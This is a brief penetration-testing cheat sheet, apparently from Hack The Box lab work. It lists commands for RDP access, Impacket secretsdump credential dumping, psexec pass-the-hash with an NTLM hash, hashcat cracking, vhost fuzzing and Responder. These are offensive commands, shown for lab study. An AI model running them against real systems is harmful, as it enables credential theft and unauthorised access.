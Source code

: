 Below are just examples of how to execute each of the commands that I would normally use.
# XfreeRDP
```
xfreerdp /v:10.129.43.43 /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:linux,/home/p3ta/ /dynamic-resolution
```
# Impacket
Secretsdump
```
impacket-secretsdump server_adm@10.129.43.42 -just-dc-user administrator
```
```
impacket-secretsdump local -system SYSTEM -ntds ntds.dit 
```
```
impacket-secretsdump local -system registry/SYSTEM -ntds Active\ Directory/ntds.dit
```
```
impacket-secretsdump local -system SYSTEM -sam SAM
```

PSexec
```
impacket-psexec administrator@10.129.43.42 -hashes :7796ee39fd3a9c3a1844556115ae1a54
```
# Hashcat
NTLM
```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
# Gobuster
VHOST
```
gobuster vhost -u mailroom.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
# FFUF
VHOST
```
sudo ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://mailroom.htb/ -H "Host: FUZZ.mailroom.htb" -fs 7748
```
# Responder
Location: /tools/responder
```
sudo ./Responder.py -wrf -v -I tun0
```
